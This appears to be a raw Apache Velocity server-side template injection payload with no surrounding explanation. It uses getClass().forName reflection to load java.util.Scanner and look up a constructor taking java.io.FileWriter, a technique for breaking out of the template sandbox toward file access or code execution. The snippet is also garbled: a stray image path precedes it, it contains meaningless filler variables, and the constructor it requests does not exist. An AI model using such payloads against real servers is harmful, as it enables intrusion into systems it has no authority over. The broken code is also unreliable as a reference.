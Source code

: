 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.FileWriter")))
$monkey
$constructor
"bbb"

